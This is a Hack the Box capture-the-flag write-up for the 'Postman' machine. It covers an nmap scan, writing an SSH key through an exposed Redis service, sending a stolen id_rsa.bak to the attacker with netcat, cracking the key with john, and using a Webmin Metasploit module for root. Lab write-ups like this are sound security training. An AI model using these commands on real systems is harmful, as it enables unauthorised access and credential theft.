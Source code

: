 +++
author = "Nick"
categories = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
date = 2020-03-14T10:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/03/postman.png"
slug = "hack-the-box-postman"
summary = "Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!"
tags = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
title = "Hack the Box - Postman"

+++


Welcome back! Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!

As normal, we start with an ```nmap``` scan: 

```nmap -sC -sV -T4 -p- -oA all_scan 10.10.10.160```

Here are our results:
```
Nmap scan report for 10.10.10.160
Host is up (0.053s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.88 seconds
```

Some interesting results, we see ```Redis``` and ```Webmin``` being hosted. Let's see what is on port 80 first.

We are greeted by a basic landing page. Nothing really in the source either. We will now see what is on port 10000. When we browse there we are told that we need to go to ```Postman:10000``` in order to view whats going on. So we add ```postman``` to our host file and browse over.

![](/images/2019/12/image-23.png)

We see a Webmin login page.

![](/images/2019/12/image-24.png)

We try the standard credentials and they don't work. A quick ```searchsploit``` gives us some results.

![](/images/2019/12/image-25.png)

However none of the RCE's work and the others are authenticated exploits. With a seemingly dead end there, we look to the ```Redis``` port. Some quick googling shows [there is a vulnerablity here](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). So to fully leverage this, we'll need the ```Redis-CLI``` tools installed. Here's a [handy link](https://codewithhugo.com/install-just-redis-cli-on-ubuntu-debian-jessie/) for that!

With our tools installed we can now replicate this exploit. The only catch is, we don't know a user. If we google around enough we find some posts about people having a ```/var/lib/redis``` location. We can use that as our starting point. If there is a file with that name, we can hope there might be a ```.ssh``` directory too, since you know, this is a CTF ;).

We connect via ```redis-cli``` and issue the following command to check the directory.

Command:
```config set dir /var/lib/redis```

![](/images/2019/12/image-26.png)

Looks like it is a viable location. We repeat with the ```.ssh``` location.

![](/images/2019/12/image-27.png)

That too worked. So we can follow the steps in our exploit! First we generate a new ssh key with ```ssh-keygen```.

![](/images/2019/12/keygen.gif)

We then pad the key with some spaces. Then read it to memory and dump it to the ```authorized_keys``` file accoring to our exploit document.

![](/images/2019/12/redis_exploit.gif)

Now we should be able to SSH in as redis.

![](/images/2019/12/image-28.png)

Success! We now can see if we have access to user.txt but we don't. So we download ```linenum``` and start enumerating. One file is of interest. ```id_rsa.bak```.

![](/images/2019/12/image-29.png)

We then transfer this file back to our machine. We can use ```netcat``` for this:

On our attacking machine we spin up a listener:
```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

On our server we send the file:
```cat id_rsa.bak | nc 10.10.14.119 9999```

Once we have the file, we can send it through ```ssh2john``` to convert it to a proper format for cracking.

![](/images/2019/12/image-30.png)

We can now send this file into ```john``` and use ```rockyou.txt``` to hopefully crack it.

Command:
```john --wordlist=/usr/share/wordlists/rockyou.txt stolen_key```

![](/images/2019/12/john.gif)

We get a password of ```computer2008```. We can switch back to our redis ssh session and use ```su Matt``` and the password we just found to get user access and the ```user.txt``` file. We enumerate a bit more as Matt now but don't see all that much. However, thinking like a user might be good here. This password might be reused. Head over to the Webmin portal with those credentials and we have access!

This means we can use one of our authenticated exploits we saw earlier to elevate. In this case we'll just go down the list, the first is the ```webmin_packageup_rce```.  We load the module and set our options. We require a few this time, ```Password```, ```rhosts```, ```ssl```, ```username``` and ```lhost```

![](/images/2019/12/image-22.png)

We get all our settings set and let it rip!

![](/images/2019/12/postman_root.gif)

There we have it, root access!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

